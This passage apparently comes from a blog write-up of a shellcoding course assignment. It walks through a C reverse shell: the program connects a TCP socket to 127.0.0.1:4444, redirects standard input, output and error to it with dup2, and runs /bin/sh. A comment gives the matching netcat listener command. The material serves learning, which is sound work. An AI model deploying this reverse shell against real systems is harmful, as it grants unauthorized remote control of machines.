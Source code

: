 First, it creates a TCP `socket` and connects it to `127.0.0.1:4444`.

After that, it uses the function `dup2` in order to redirect `stdin`, `stdout`, and `stderr` towards the socket.

Finally, it executes `/bin/sh`.

Let's see if my C version works:

```cpp
#include <netinet/ip.h>

int main() {
    int client_socket_fd;

    // define an array made up of 1 value: 0
    // this way I don't have to pass NULL pointers to execve
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    // create a TCP socket
    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    // connect to 127.0.0.1:4444
    // where netcat is listening
    // /bin/sh -c "nc -v -l 4444"
    client_address.sin_family = AF_INET;

    // convert the IP address to an 'in_addr' struct
    inet_aton("127.0.0.1", &client_address.sin_addr);
    client_address.sin_port = htons(4444);

    // connect to the socket
    connect(client_socket_fd, (struct sockaddr *)&client_address, sizeof(client_address));

    // redirect stdin/stdout/stderr to the socket
    dup2(client_socket_fd, 0);
    dup2(client_socket_fd, 1);
    dup2(client_socket_fd, 2);

    // now that the standard file descriptors are redirected
    // once we spawn /bin/sh, input/output/error are going to be bound
    //      to the socket
    execve("/bin/sh", empty, empty);
}
```

The first part is similar to the previous assignment: it creates a TCP socket using the same arguments.

However, compared to the function `bind()`, `connect()` doesn't use the value `INADDR_ANY`. Instead, it uses a specific IP address to connect to.

I discovered that you can't just do the following:
